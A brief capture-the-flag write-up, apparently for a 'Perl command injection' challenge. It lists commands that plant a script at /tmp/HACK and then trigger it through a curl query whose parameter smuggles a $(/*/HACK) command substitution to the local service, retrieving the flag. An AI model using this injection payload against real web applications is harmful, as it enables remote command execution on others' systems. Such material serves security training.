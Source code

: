 # Perl command injection 2
## Create a script to execute with an uppercase name
>`echo '/bin/getflag > /tmp/flag' > /tmp/HACK && chmod 777 /tmp/HACK`

## Send query
>`curl 'localhost:4646/?x=$(/*/HACK)'`

## Get the flag
>`cat /tmp/flag`
